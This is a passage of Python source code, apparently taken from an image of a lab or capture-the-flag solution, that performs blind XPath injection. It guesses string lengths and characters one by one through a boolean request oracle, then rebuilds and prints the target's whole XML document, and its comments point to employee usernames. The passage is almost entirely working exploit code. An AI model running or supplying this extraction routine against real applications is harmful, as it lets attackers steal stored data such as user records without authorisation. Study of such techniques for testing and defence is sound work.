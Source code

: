 ```

    i = 1
    while True:
        if xpath_req(f'string-length({item})={i}'):
            break
        if i > 100:
            print("Error")
            sys.exit()
        i += 1

    text_len = i

    res = ''
    for i in range(1, text_len+1):
        for c in alpha:
            if xpath_req(f"substring({item}, 1, {i})='{res}{c}'"):
                res += c
                print(f'{c}', end='', flush=True)
                break
    keys += [res]
    return res

def get_node(node, depth=0):

    print(f'\n{" "*depth*2}<', end='', flush=True)
    node_name = get_text(f'name({node})')
    #print(node_name, end='', flush=True)
    print('>', end='', flush=True)

    # Count children
    i = 0
    while True:
        if xpath_req(f"count({node}/*)={i}"):
            #print(f'[+] {node} has {i} children')
            break
        i += 1
    num_children = i

    for i in range(1, num_children+1):
        get_node(f'{node}/*[position()={i}]', depth+1)

    if num_children == 0:
        #/Employees/Employee[position()=1]/Username='rita'
        #string-length(/Employees/*[position()=1]/Username)=3
        text = get_text(f'{node}', alpha=string.printable)
        #print(text, end='', flush=True)
    else:
        print(f'\n{" "*depth*2}', end='', flush=True)

    print(f'</{node_name}>', end='', flush=True)

get_node('/*[position()=1]')
print()

```
